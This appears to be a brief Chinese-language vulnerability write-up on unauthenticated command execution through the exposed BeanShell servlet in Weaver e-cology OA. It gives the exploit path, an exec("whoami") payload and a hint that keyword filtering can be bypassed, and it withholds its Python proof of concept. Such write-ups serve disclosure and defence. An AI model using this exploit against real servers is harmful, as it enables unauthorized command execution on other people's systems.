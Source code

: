 ### 原理简述

这个漏洞起因是因为使用了beanshell这个组件，并且没有做任何的访问控制。导致可以直接访问beanshell,执行任意命令。

###  漏洞复现

直接访问`/weaver/bsh.servlet.BshServlet`

![](assets/poc.png)

可以使用exec()执行命令，例如：
`exec("whoami")`

记住，是双引号，而且泛微oa应该拦截了一些关键词（exec好像就被拦截了，但是有方法可以绕过）

### 漏洞分析

http://www.liuhaihua.cn/archives/614038.html


### python poc


ecology_oa_cmd_exec.py（暂不放出）
